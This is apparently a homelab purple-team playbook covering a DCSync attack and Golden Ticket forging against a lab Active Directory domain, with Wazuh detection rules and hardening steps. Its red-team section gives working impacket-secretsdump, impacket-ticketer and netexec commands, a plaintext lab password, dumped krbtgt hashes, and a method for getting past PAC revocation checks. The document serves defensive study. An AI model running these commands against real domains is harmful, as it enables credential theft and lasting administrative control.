


# Pillar 6: Domain Dominance & Persistence (DCSync Attack, NTDS Secret Extraction & Modern Kerberos Golden Ticket Forging)

The Final Purple Team scenario of the lab. This playbook documents the DCSync attack leveraging the Directory Replication Service Remote Protocol (MS-DRSR), extracting the secret `krbtgt` credential from `winServer1`, investigating modern Kerberos PAC validation and `KDC_ERR_TGT_REVOKED` defense mechanics, forging an AES-256 PAC-compliant Golden Ticket, capturing Windows Security Event ID 4662 forensic artifacts, and engineering custom Wazuh detection rules.

---

## 1. Technique & MITRE ATT&CK Overview

* **Primary Tactics**: Credential Access (`TA0006`), Persistence (`TA0003`), Privilege Escalation (`TA0004`)
* **Technique IDs**: **T1003.006** (DCSync), **T1558.001** (Golden Ticket), **T1078.002** (Domain Accounts)
* **Adversary Objective**: Simulate domain replication traffic via the MS-DRSR protocol to extract the master `krbtgt` credential from the Domain Controller without executing code on the DC, analyze modern Kerberos PAC validation safeguards (`KDC_ERR_TGT_REVOKED`), and forge an AES-256 PAC-compliant Golden Ticket for indefinite domain persistence.

---

## 2. Red Team Attack Procedures

### Procedure 6.1: DCSync Attack Execution (Extracting the `krbtgt` Secret)
Unlike traditional credential dumping techniques that execute processes on the Domain Controller or copy `ntds.dit` via Volume Shadow Copies, a **DCSync attack** simulates the behavior of a replication partner. By utilizing the `DRSUAPI` RPC interface, an attacker holding replication privileges requests password data directly from the directory without triggering file-system alerts.

From Kali Linux, the adversary targeted `winServer1` using the elevated `asmith` credentials:

```bash
# Executed from Kali Linux (100.121.144.96):
impacket-secretsdump wazuh.homelab.local/asmith:'LabUser2026!#'@100.115.210.66 -just-dc-user krbtgt
```



*Result:* Harvested master Active Directory cryptographic material for `krbtgt` (RID `502`):
* **NTLM Hash**: `5a4b375aa0b5633d27b3ca126c3ae29f`
* **Kerberos AES-256 Key**: `250578e118e7dcbcd3d684a1d647ad6e70ef58333160336af67daabcdea863ca`

---

### Procedure 6.2: Modern Kerberos Defense Analysis (`KDC_ERR_TGT_REVOKED`)
An initial attempt to forge a legacy Golden Ticket targeting `Administrator` failed:

```bash
impacket-ticketer -nthash 5a4b375aa0b5633d27b3ca126c3ae29f -domain-sid S-1-5-21-3332230180-1108682337-2359799131 -domain wazuh.homelab.local -user Administrator administrator.ccache
export KRB5CCNAME=administrator.ccache
netexec smb winServer1.wazuh.homelab.local -k --use-kcache
```

#### Error Encountered:
```text
[-] WAZUH.HOMELAB.LOCAL\ from ccache KDC_ERR_TGT_REVOKED
```

#### Deep-Dive Technical Explanation:
Modern Active Directory environments (Windows Server 2022 / 2019 with KB5008380 / CVE-2021-42287) introduce advanced PAC validation safeguards:
1. **Account Existence Validation**: In cloud-provisioned Azure AD environments, the RID `500` administrator account was created as **`AzureWinServer`** (no user named `Administrator` exists in the directory). When a client presents a TGT, the KDC looks up the user account. If the target identity does not exist, the ticket is instantly rejected with `KDC_ERR_TGT_REVOKED`.
2. **PAC Requestor & Attributes Enforcement**: Modern KDCs require the ticket to include `PAC_REQUESTOR` and `PAC_ATTRIBUTES_INFO` structures, and prefer AES-256 encryption over legacy RC4/NTLM signing.

---

### Procedure 6.3: Forging a Modern AES-256 PAC-Compliant Golden Ticket
To bypass PAC revocation and satisfy modern KDC validation, a Golden Ticket was crafted using the **`krbtgt` AES-256 key**, specifying the valid RID `500` account (**`AzureWinServer`**), and appending the modern **`-extra-pac`** structure:

```bash
# 1. Forge AES-256 Golden Ticket with modern PAC structures:
impacket-ticketer -aesKey 250578e118e7dcbcd3d684a1d647ad6e70ef58333160336af67daabcdea863ca \
  -domain-sid S-1-5-21-3332230180-1108682337-2359799131 \
  -domain wazuh.homelab.local \
  -user-id 500 \
  -extra-pac AzureWinServer

# 2. Export Kerberos ticket cache:
export KRB5CCNAME=AzureWinServer.ccache

# 3. Authenticate to the Domain Controller using the forged Golden Ticket:
netexec smb winServer1.wazuh.homelab.local -k --use-kcache
```



*Result:* Successfully authenticated as `WAZUH.HOMELAB.LOCAL\AzureWinServer` from ccache (`Pwn3d!`).

The adversary achieved complete, indefinite domain dominance: possessing a self-generated ticket that authenticates as the highest administrative authority without any valid session, password, or hash ever being submitted across the network.

---

## 3. Blue Team Forensic Telemetry

### Forensic Log Telemetry (Captured Live on `winServer1`)

#### Directory Service Replication Operation (Event ID 4662)
> **Key Detection Indicator:** Directory Service access operation requesting `AccessMask: 0x100` (`Control Access`) containing replication property GUIDs (`{1131f6ad-...}` / `Get-Changes-All` and `{1131f6aa-...}` / `Get-Changes`) initiated by a non-machine user account (`asmith`). In benign Active Directory environments, directory replication is strictly confined to domain controller computer accounts (`DC$`).

```yaml
EventID: 4662
Channel: Security
Task: Directory Service Access
Message: "An operation was performed on an object."
Subject:
  SecurityID: S-1-5-21-3332230180-1108682337-2359799131-3602
  AccountName: asmith                   # Non-DC User account performing replication!
  AccountDomain: WAZUH
  LogonID: 0x7FF0D3C                    # Inbound Network Logon session
Object:
  ObjectServer: DS
  ObjectType: '%{19195a5b-6da0-11d0-afd3-00c04fd930c9}' # domainDNS class
Operation:
  OperationType: Object Access
  Accesses: Control Access
  AccessMask: '0x100'                   # Extended Rights requested
  Properties: |
    Control Access
    {1131f6ad-9c07-11d1-f79f-00c04fc2dcd2} # DS-Replication-Get-Changes-All
    {1131f6aa-9c07-11d1-f79f-00c04fc2dcd2} # DS-Replication-Get-Changes
```

#### Forensic Analysis:
* **The Anomaly**: Legitimate replication operations only occur between registered Domain Controller computer accounts (e.g., `WINSERVER1$`). When `Subject.AccountName` is a standard user or user account (`asmith`), it is an indisputable indicator of a DCSync attack.
* **The Extended Rights**: Access mask `0x100` coupled with replication GUIDs `{1131f6aa-...}` and `{1131f6ad-...}` confirms that secret attributes (hashes, Kerberos keys) were transferred across the network.

---

## 4. Detection Engineering (Wazuh SIEM)

### Custom Detection Rule (`local_rules.xml`)
The following rule detects DCSync replication activity initiated by any non-computer account:

```xml
<group name="active_directory,detection_engineering,">

  <!-- ============================================================ -->
  <!-- Rule 100105: Directory Service Replication / DCSync (4662)   -->
  <!-- ============================================================ -->
  <rule id="100105" level="12">
    <if_sid>60103</if_sid> <!-- Windows Security Audit Success Event -->
    <field name="win.system.eventID">^4662$</field>
    <field name="win.eventdata.accessMask">0x100</field>
    <field name="win.eventdata.properties" type="pcre2">(?i)1131f6aa-9c07-11d1-f79f-00c04fc2dcd2|1131f6ad-9c07-11d1-f79f-00c04fc2dcd2|89e0becb-8182-11d0-9948-00c04fc2dcd2</field>
    <field name="win.eventdata.subjectUserName" type="pcre2" negate="yes">.*\$</field>
    <description>Active Directory: Directory Service Replication (DCSync) by Non-DC Account ($(win.eventdata.subjectUserName))</description>
    <mitre>
      <id>T1003.006</id>
    </mitre>
  </rule>

</group>
```

#### Rule Logic:
1. Filters for **Event ID 4662** under Windows Security parent rule `60103`.
2. Inspects `win.eventdata.accessMask` for `0x100` (`Control Access`).
3. Uses PCRE2 regex to match any of the three replication GUIDs (`Get-Changes`, `Get-Changes-All`, `Get-Changes-In-Filtered-Set`).
4. Negates matches where `subjectUserName` ends in `$` to suppress legitimate Domain Controller replication traffic.

### Threat Hunting Lucene Query (Wazuh / OpenSearch Dashboard)
Hunt for unauthorized directory replication requests (DCSync) originating from non-DC accounts:
```text
data.win.system.eventID: "4662" AND data.win.eventdata.accessMask: "0x100" AND NOT data.win.eventdata.subjectUserName: "*$"
```

---

## 5. Hardening & Prevention

### 1. Restrict Active Directory Replication Permissions
By default, only Domain Controllers, Enterprise Admins, and Domain Admins hold replication permissions. Audit domain root permissions to ensure no delegated users or service accounts hold:
* `Replicating Directory Changes`
* `Replicating Directory Changes All`
* `Replicating Directory Changes In Filtered Set`

### 2. The Double `krbtgt` Password Reset Procedure
If a Golden Ticket is suspected or proven:
* Changing the `krbtgt` password once **does NOT** invalidate existing Golden Tickets; Windows retains the previous password to allow in-flight tickets to expire.
* **Remediation**: The `krbtgt` password must be **reset twice**, allowing sufficient time (typically 10-24 hours) between resets for replication across all domain controllers in the forest.

### 3. Enforce Kerberos Armoring (FAST) & Strict PAC Validation
Ensure all domain controllers have **PAC Requestor Enforcement** set to full enforcement mode:
```powershell
# Registry Key for PacRequestorEnforcement:
# HKLM\System\CurrentControlSet\Services\Kdc -> PacRequestorEnforcement = 2 (Full Enforcement)
Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\Services\Kdc" -Name "PacRequestorEnforcement" -Value 2 -Type DWord
```
